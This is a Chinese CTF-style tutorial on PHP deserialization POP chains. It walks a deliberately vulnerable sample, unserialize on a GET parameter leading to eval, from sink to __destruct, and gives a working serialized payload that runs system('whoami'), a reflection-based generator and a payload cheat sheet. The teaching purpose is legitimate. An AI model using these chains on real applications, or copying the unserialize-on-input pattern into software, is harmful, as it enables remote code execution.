

## 一句话概括

**POP = Property-Oriented Programming（面向属性编程）**：方法代码改不了，但属性值随便改。于是攻击者把一串对象**用属性互相指起来**，让「反序列化后自动触发的魔术方法」顺着这条属性链一路走到危险函数 —— 这条链就叫 **POP 链**。



## 原理

### 1. POP 链、POC 分别是什么

| 名词 | 全称 | 含义 |
|---|---|---|
| **POP 链** | Property-Oriented Programming | 一**序列**魔术方法的调用链：攻击者靠控制对象属性，构造出一条特定的调用路径，最终执行恶意代码。说白了就是「攻击链」 |
| **POC** | Proof of Concept | 证明漏洞确实存在的代码 / 方法 / 演示，让别人能复现。**不是漏洞本身，是「我这样证明了它存在」** |

### 2. 先看清「反序列化后的对象图」

在串链之前，必须先搞清楚：**反序列化出来的不是一个孤零零的对象，而是一张由属性连起来的对象图。**

```php
<?php
class fast {
    public $source;
}
class sec {
    var $benben;
}

$a = new sec();
$b = new fast();

$b->source = $a;          // 把 sec 对象放进 fast 的 source 属性
echo serialize($b);
?>
// 输出
// O:4:"fast":1:{s:6:"source";O:3:"sec":1:{s:6:"benben";N;}}
```

一步一步看 `serialize($b)` 是怎么写出来的：

| 步骤 | 动作 | 累积结果 |
|---|---|---|
| 1 | 检测到 `$b` 是 `fast` 类对象 | `O:4:"fast":` |
| 2 | `fast` 有 **1** 个属性 | `O:4:"fast":1:` |
| 3 | 进入属性列表 | `O:4:"fast":1:{` |
| 4 | 属性名 `source`（长度 6） | `...{s:6:"source";` |
| 5 | 属性值 `$a` 是对象 → 开始序列化 `sec` | `...O:3:"sec":1:` |
| 6 | 进入 `sec` 的属性列表 | `...O:3:"sec":1:{` |
| 7 | 属性名 `benben`（长度 6），值为 `null` | `...s:6:"benben";N;` |
| 8 | 依次收尾两个 `}` | `...N;}}` |
| 9 | 输出 | `O:4:"fast":1:{s:6:"source";O:3:"sec":1:{s:6:"benben";N;}}` |

原笔记的困惑「不是说只有一个属性吗，怎么又检测到 sec」，答案是**两个互不相干的计数**：

- `fast:1:` 里的 `1` 统计的是 **`fast` 自己的属性个数** —— 确实只有 1 个（`source`）；
- 而 `source` 这个属性的**值**恰好是另一个对象，序列化器就要**再递归进去**，于是多出一个 `O:3:"sec":1:`。

**这就是 POP 链的物理形态**：链不是「代码里的调用」，而是「数据里的嵌套」。反序列化时，嵌套结构会被原样复现成对象图；等代码执行到 `$this->某属性->某方法()`，跑的就是攻击者塞进去的那个类的方法。

### 3. 构造 POP 链的通用方法：从出口倒着推

正向想容易迷路，**一律从「危险函数」倒着往回推**：

```text
① 找出口：源码里哪个危险函数会被调用？       eval() / system() / include() / file_put_contents() ...
② 找谁能调它：哪个类的方法体里调用了这个危险函数？   evil::action() 里有 eval()
③ 找谁能调上一步的方法：谁在方法里调了 action()？    index::__destruct() 里有 $this->test->action()
④ 找入口：哪个魔术方法是「反序列化后一定会自动跑」的？  __destruct() / __wakeup() / __unserialize()
⑤ 连属性：把每一步需要的对象，沿着属性名串成一个嵌套的 O:... 结构
```

判据上的两条硬要求：

- **入口必须「自动」**：最好落在 `__destruct()`（脚本结束必跑）或 `__wakeup()`（反序列化就跑）上；否则要等业务代码主动调用。
- **每一跳的属性都必须可写**：包括 `private` / `protected` 属性（前缀要带 `\0`），它们同样能被 payload 控制。

### 4. 触发时机速查（挑入口用）

| 魔术方法 | 什么时候跑 | 作为「入口」的质量 |
|---|---|---|
| `__destruct()` | 对象销毁 / 脚本结束 | ★★★ 最稳，一定能跑到 |
| `__wakeup()` | `unserialize()` 还原属性后 | ★★★ 反序列化即触发 |
| `__unserialize($d)` | PHP 7.4+ 反序列化时（顶掉 `__wakeup`） | ★★★ 同上 |
| `__toString()` | 对象被当字符串用 | ★★ 依赖业务代码写法 |
| `__invoke()` | 对象被当函数调用 | ★★ 依赖业务代码写法 |
| `__call()` | 调用了不存在的方法 | ★★ 依赖业务代码写法 |
| `__get()` / `__set()` | 读写不可访问的属性 | ★★ 依赖业务代码写法 |
| `__construct()` | `new` 实例化时 | ✗ **反序列化不触发** |

（完整表见 03 篇）

## 本题情景与解题手法

> 下面这段源码就是原笔记的判例，它的结构足够小、又是**标准的四层链**，适合当作模板背下来。

### 题目形态

```php
<?php
class index {
    private $test;
    public function __construct() {
        $this->test = new normal();     // 摆设：unserialize 不触发 __construct
    }
    public function __destruct() {
        $this->test->action();          // ★ 入口魔术方法
    }
}
class normal {
    public function action() {
        echo "please attack me";
    }
}
class evil {
    var $test2;
    public function action() {
        eval($this->test2);             // ★ 出口：危险函数
    }
}

unserialize($_GET['test']);
?>
```

### 第一步：找出口 —— 危险函数在哪

`evil::action()` 里有 `eval($this->test2)`。`$test2` 只要可控就是代码执行。**注意：危险函数不在入口类里，而在另一个类 `evil` 里** —— 这就是必须「串链」的原因。

### 第二步：找中间跳 —— 谁调用了 `action()`

`index::__destruct()` 里有一句：

```php
$this->test->action();
```

它是**用属性 `$test` 去调方法**。所以只要 `$test` 不是 `normal` 而是 `evil` 对象，跑的就是 `evil::action()`，`eval` 就到位了。

### 第三步：找入口 —— 谁会自动跑

`index::__destruct()` 是析构函数，**脚本结束必跑**。它又是最外层的类（`unserialize` 直接建的对象），所以入口就是它。

到这里链路定型：

```text
unserialize($_GET['test']) → [脚本结束] → index::__destruct()
   → $this->test->action() → evil::action() → eval($this->test2)
```

### 第四步：连属性，写出嵌套结构

把每一跳需要的对象沿属性名填进去：

```php
<?php
class index {
    private $test;          // 要填成 evil 对象
}
class evil {
    public $test2 = "system('whoami');";   // 要填成命令
}
```

`$test` 是 **`private`** 属性 —— 属性名要写成 `\0index\0test`（长度 = 1 + 5 + 1 + 4 = **11**）。

最稳的生成方式是用 PHP 反射把属性设好再 `serialize()`：

```php
<?php
class index { private $test; public function __construct(){ $this->test = new normal(); } }
class normal {}
class evil { public $test2; }

$o = new index();
$r = new ReflectionProperty('index', 'test');
$r->setAccessible(true);            // 绕过 private 限制，纯为生成 payload

$e = new evil();
$e->test2 = "system('whoami');";

$r->setValue($o, $e);
echo urlencode(serialize($o));
?>
```

输出：

```text
O%3A5%3A%22index%22%3A1%3A%7Bs%3A11%3A%22%00index%00test%22%3BO%3A4%3A%22evil%22%3A1%3A%7Bs%3A5%3A%22test2%22%3Bs%3A17%3A%22system%28%27whoami%27%29%3B%22%3B%7D%7D
```

解码后就是：

```text
O:5:"index":1:{s:11:"\0index\0test";O:4:"evil":1:{s:5:"test2";s:17:"system('whoami');";}}
```

在浏览器里用 `%00` 代替 `\0`：

```text
?test=O:5:"index":1:{s:11:"%00index%00test";O:4:"evil":1:{s:5:"test2";s:17:"system('whoami');";}}
```

### 第五步：长度逐项核对（最容易翻车的一步）

| 字段 | 值 | 字节数 | 核对 |
|---|---|---|---|
| 类名 | `index` | 5 | `O:5:` ✓ |
| 属性个数 | —— | 1 | `:1:` ✓ |
| `private` 属性名 | `\0index\0test` | 1+5+1+4 = 11 | `s:11:` ✓ |
| 类名 | `evil` | 4 | `O:4:` ✓ |
| 属性名 | `test2` | 5 | `s:5:` ✓ |
| 属性值 | `system('whoami');` | 17 | `s:17:` ✓ |

**结论**：属性个数写 `1`、`private` 名字带 `\0` 且算满、字符串长度逐字符数 —— 这三点错一个，整串直接解析失败。

### 注入手法一句话总结

> **出口（`eval` 在 `evil::action`）→ 中间跳（`index::__destruct` 里 `$this->test->action()`）→ 入口（`__destruct` 自动跑）** → 把 `$test` 这个 `private` 属性填成 `evil` 对象、把 `test2` 填成命令 → 生成嵌套 `O:` 结构 → 丢给 `unserialize`。

## 利用条件

1. **入口会自动触发**：至少有一个 `__destruct()` / `__wakeup()` / `__unserialize()` 落在「能被 `unserialize` 建出来的类」上；
2. **中间跳存在**：类的方法体里有「用属性调方法 / 用属性当参数」的语句（`$this->x->y()`、`$this->x(...)`、`$this->x . ""`）；
3. **出口是危险函数**：`eval` / `system` / `include` / 文件写入等；
4. **属性可写**：所有中间属性都能在 payload 里赋值（`private` / `protected` 也一样，见 01 篇）；
5. **知道准确类名**，且能拼出合法长度。

## Payload 速查

| 目的 | 写法 |
|---|---|
| 属性指向另一个对象 | `s:6:"source";O:3:"sec":1:{...}` |
| `private` 属性指向对象 | `s:11:"\0index\0test";O:4:"evil":1:{...}` |
| 属性当「函数名 / 命令」 | `s:5:"test2";s:17:"system('whoami');";` |
| 属性当数组 | `s:1:"a";a:1:{i:0;s:2:"id";}` |
| 生成（推荐） | 反射改好属性 → `urlencode(serialize($obj))` |
| URL 里表示 `\0` | `%00` |

## 完整示例：模板化改写

把上面的链换成别的题，只需替换三处：

```text
① 出口   evil::action() 里的 eval($this->test2)
         → 换成目标题里真正的危险函数
② 中间跳 index::__destruct() 里的 $this->test->action()
         → 换成目标题里「用属性调方法」的那句
③ 属性名 $test / $test2
         → 换成目标题里真实的属性名（注意 private/protected 前缀）
```

链的形状永远是这个：

```text
用户可控的 unserialize
   → 自动触发的魔术方法（入口）
   → 属性指向的对象（中间）
   → 危险函数（出口）
```

## 踩坑与备注

- **`private` 属性的 `\0` 是最常错的点**：`\0index\0test` 的长度是 11 而不是 9（`\0` 各算 1 字节，还要加上类名 `index`）。用 `serialize()` 生成就不会错。
- **构造函数是摆设**：本例 `index::__construct()` 里那句 `$this->test = new normal();` 在反序列化路径上**不执行**，所以攻击者可以放心把 `$test` 换成 `evil`。
- **`var $test2;` 等价于 `public $test2;`**，属性名就是 `test2`，不要加前缀。
- **属性个数必须等于实际写的个数**：`O:5:"index":1:` 后面就只写 1 组「属性名 + 属性值」。写多了/少了都可能解析失败（个别老版本 `unserialize` 有「个数偏大能跑」的宽容行为，但**不要依赖**，见 07 篇）。
- **入口不一定是最外层对象**：有的题入口类不直接可控，需要从能建出来的类出发，靠属性一步步「爬到」有 `__destruct` 的类上。倒推法（第 3 节）在复杂题里更省时间。
- **原笔记 `POP链&&攻击具体实操` 尾部的一张「分析训练」截图已无法还原**，其内容按上下文对应「拿一段源码找出链的入口/中间/出口」这类练习，要点即为本文第 3 节的倒推五步。
- 原笔记附带的 NSSCTF 例题：给了 `test` 类（`__wakeup` 清空 `$a`、`__destruct` 执行 `eval($this->a)`）并用 `/test":3/i` 正则挡住「改属性个数绕过 `__wakeup`」的路子，最终改用**引用 `R:2`** 解题 —— 这一条链见 08 篇（「引用」一节）。
